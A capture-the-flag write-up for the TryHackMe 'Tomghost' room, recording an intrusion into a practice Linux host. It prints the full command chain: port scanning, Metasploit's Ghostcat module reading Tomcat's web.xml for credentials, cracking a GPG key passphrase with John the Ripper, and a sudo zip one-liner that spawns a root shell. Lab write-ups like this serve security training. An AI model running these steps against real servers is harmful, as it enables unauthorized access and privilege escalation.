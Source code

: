 ```yaml
---
title: "Tomghost"
date: 2025-01-23
image: /assets/img/tryhackme/Tomghost/Tomghost_image.jpg
description: Writeup of the TryHackMe-CTF Tomghost
categories: [Tryhackme, Easy]
tags: [linux, enumeration, vulnerability, gpg, privesc]
---
```


## Challenge Description
<center>
<table>
  <tr>
    <td>Plattform</td>
    <td>TryHackMe</td>
  </tr>
  <tr>
    <td>Name</td>
    <td>Tomghost</td>
  </tr>
  <tr>
    <td>Description</td>
    <td>Identify recent vulnerabilities to try exploit the system or read files that you should not have access to.</td>
  </tr>
  <tr>
    <td>Difficulty</td>
    <td>Easy</td>
  </tr>
  <tr>
    <td>OS</td>
    <td>Linux</td>
  </tr>
  <tr>
    <td>Link</td>
    <td><a href="https://tryhackme.com/r/room/tomghost">https://tryhackme.com/r/room/tomghost</a></td>
  </tr>
</table>
</center>

This writeup is a possible solution of the CTF-challenge Tomghost.  

## Enumeration
I started the enumeration using `nmap`:
```bash
$ nmap -p- 10.10.142.154
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 05:12 EST
Nmap scan report for 10.10.142.154
Host is up (0.039s latency).
Not shown: 65531 closed tcp ports (conn-refused)
PORT     STATE SERVICE
22/tcp   open  ssh
53/tcp   open  domain
8009/tcp open  ajp13
8080/tcp open  http-proxy

Nmap done: 1 IP address (1 host up) scanned in 24.78 seconds
```
and enumerated the found services in more depth using nmap's `-A` flag:
```bash
$ nmap -A -p 22,53,8009,8080 10.10.142.154
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-01-23 05:13 EST
Nmap scan report for 10.10.142.154
Host is up (0.040s latency).

PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
|_  256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
53/tcp   open  tcpwrapped
8009/tcp open  ajp13      Apache Jserv (Protocol v1.3)
| ajp-methods:
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.96 seconds
```
from here I started with port 8080 because the `Tomcat/9.0.30` sounds intersting.

## Port 8080 Analysis
We can see a default installation of Apache Tomcat with version 9.0.30. A quick Google serach for potential vulnerabilites gave me an <a href="https://www.exploit-db.com/exploits/49039">exploit-db</a> entry. From here I started Metasploit and searched for a vulnerability called `ghostcat`.
```bash
msf6 > search ghostcat

Matching Modules
================

   #  Name                                  Disclosure Date  Rank    Check  Description
   -  ----                                  ---------------  ----    -----  -----------
   0  auxiliary/admin/http/tomcat_ghostcat  2020-02-20       normal  Yes    Apache Tomcat AJP File Read
```
This seemed promising, so I loaded the module, set the required options and ran the exploit (I cutted the exploit output for readability):
```bash
msf6 auxiliary(admin/http/tomcat_ghostcat) > show options

Module options (auxiliary/admin/http/tomcat_ghostcat):

   Name      Current Setting   Required  Description
   ----      ---------------   --------  -----------
   FILENAME  /WEB-INF/web.xml  yes       File name
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT     8009              yes       The Apache JServ Protocol (AJP) port (TCP)

msf6 auxiliary(admin/http/tomcat_ghostcat) > set rhosts 10.10.142.154
rhosts => 10.10.142.154

msf6 auxiliary(admin/http/tomcat_ghostcat) > exploit
[*] Running module against 10.10.142.154

[*** removed ***]

  <display-name>Welcome to Tomcat</display-name>
  <description>
     Welcome to GhostCat
        skyfuck:[removed]
  </description>

</web-app>

[+] 10.10.142.154:8009 - File contents save to: /home/kali/.msf4/loot/20250123051937_default_10.10.142.154_WEBINFweb.xml_229749.txt
[*] Auxiliary module execution completed
```
The output provide some credentials which we could use to connect with ssh:
```bash
$ ssh skyfuck@10.10.142.154
skyfuck@ubuntu:/home$ ls
merlin  skyfuck
skyfuck@ubuntu:/home$ cd merlin/
skyfuck@ubuntu:/home/merlin$ ls
user.txt
skyfuck@ubuntu:/home/merlin$ cat user.txt
THM{*** removed ***}
```
I was able to retrieve the user flag and found another username, so let's get his credentials

## Privilege Escalation Merlin
There where two intersting files:
```bash
skyfuck@ubuntu:~$ ls
credential.pgp  tryhackme.asc
```
I tried to crack the private keys hash to decrypt the `credential.pgp`:
```bash
$ gpg2john tryhackme.asc > hashes
$ john --wordlist=/usr/share/wordlists/rockyou.txt hashes
  Using default input encoding: UTF-8
  Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
  Cost 1 (s2k-count) is 65536 for all loaded hashes
  Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
  Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 9 for all loaded hashes
  Will run 8 OpenMP threads
  Press 'q' or Ctrl-C to abort, almost any other key for status
  alexandru        (tryhackme)
  1g 0:00:00:00 DONE (2025-01-23 05:26) 16.66g/s 17866p/s 17866c/s 17866C/s [removed]
  Use the "--show" option to display all of the cracked passwords reliably
  Session completed.
$ gpg --import tryhackme.asc
  gpg: keybox '/home/kali/.gnupg/pubring.kbx' created
  gpg: /home/kali/.gnupg/trustdb.gpg: trustdb created
  gpg: key 8F3DA3DEC6707170: public key "tryhackme <stuxnet@tryhackme.com>" imported
  gpg: key 8F3DA3DEC6707170: secret key imported
  gpg: key 8F3DA3DEC6707170: "tryhackme <stuxnet@tryhackme.com>" not changed
  gpg: Total number processed: 2
  gpg:               imported: 1
  gpg:              unchanged: 1
  gpg:       secret keys read: 1
  gpg:   secret keys imported: 1
$ gpg --decrypt credential.pgp
  gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
  gpg: encrypted with 1024-bit ELG key, ID 61E104A66184FBCC, created 2020-03-11
        "tryhackme <stuxnet@tryhackme.com>"
  merlin:[removed]
```
With the credentials I was able to ssh in as merlin
```bash
$ ssh merlin@10.10.142.154
merlin@ubuntu:~$
```

## Privilege Escalation root
I started with `sudo -l` and got the following output:
```bash
merlin@ubuntu:~$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
A quick serach in <a href="https://gtfobins.github.io/gtfobins/zip/">gftobins</a> gave me all I needed:
```bash
$ TF=$(mktemp -u)
$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# cd /root
# cat root.txt
THM{*** removed ***}
```

solved! :)
